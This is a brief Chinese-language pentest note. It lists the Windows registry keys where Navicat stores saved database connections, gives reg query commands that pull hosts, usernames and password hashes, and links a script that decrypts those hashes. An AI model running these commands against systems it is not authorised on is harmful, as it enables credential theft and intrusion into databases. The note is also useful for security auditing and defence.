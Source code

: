 - Navicat 连接数据服务器的账号密码hash存储在注册表中，位置如下：

  ```
  MySQL HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\
  MariaDB HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers\
  Microsoft SQL HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers\
  Oracle HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers\
  PostgreSQL HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers\
  SQLite HKEY_CURRENT_USER\Software\PremiumSoft\NavicatSQLite\Servers\

  reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\NavicatOra\Servers /s /v host 连接 ip
  reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\NavicatOra\Servers /s /v UserName 用于连接用户名
  reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\NavicatOra\Servers /s /v pwd 用于连接的密码 hash
  reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\NavicatOra\Servers /s /v InitialDatabase 初始数据库，有些默认不是ORCL
  ```

  密码hash解密脚本`https://github.com/klionsec/Decryption-tool/blob/master/%E5%AE%A2%E6%88%B7%E7%AB%AF%E8%A7%A3%E5%AF%86/Navicat%E8%A7%A3%E5%AF%86/navicat-encrypt-password/python3/NavicatCryptoHelper.py`

